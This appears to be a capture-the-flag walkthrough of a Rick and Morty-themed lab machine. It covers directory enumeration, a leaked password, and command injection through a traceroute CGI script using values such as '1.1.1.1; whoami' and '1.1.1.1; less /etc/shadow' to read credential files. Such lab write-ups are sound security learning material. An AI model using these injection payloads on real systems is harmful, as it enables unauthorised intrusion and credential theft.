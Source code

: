 ```
/cgi-bin/             (Status: 403) [Size: 217]
/index.html           (Status: 200) [Size: 326]
/index.html           (Status: 200) [Size: 326]
/.hta                 (Status: 403) [Size: 213]
/passwords            (Status: 301) [Size: 239] 
/robots.txt           (Status: 200) [Size: 126]
/robots.txt           (Status: 200) [Size: 126]
/.hta.html            (Status: 403) [Size: 218]
/.hta.txt             (Status: 403) [Size: 217]

```
went to `/passwords` got a flag from there
`FLAG{Yeah d- just don't do it.} - 10 Points`=40/130
got a password: winter
from `/passwords.html`

went to `robots.txt`
```
/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*
```

went to `/cgi-bin/root_shell.cgi` nothing important
went to `/cgi-bin/tracertool.cgi` - saw a tracer machine
check source code for blocking parameters like " ; " "&&" "| "
confirmed it blocks nothing 
did 
```
1.1.1.1; whoami
```
got as `apache` so Command Injection works
tried
```
uname -a
```
output
```apache
Linux localhost.localdomain 4.11.8-300.fc26.x86_64 #1 SMP Thu Jun 29 20:09:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```
check the pwd
`/var/www/cgi-bin`
tried prev escalation through `shell.cgi` didn't worked

its possible read the `/etc/passwd`
```
1.1.1.1; less /etc/shadow
```
output:
```apache
RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
Morty:x:1001:1001::/home/Morty:/bin/bash
Summer:x:1002:1002::/home/Summer:/bin/bash
```
the password winter must be the pass of summer
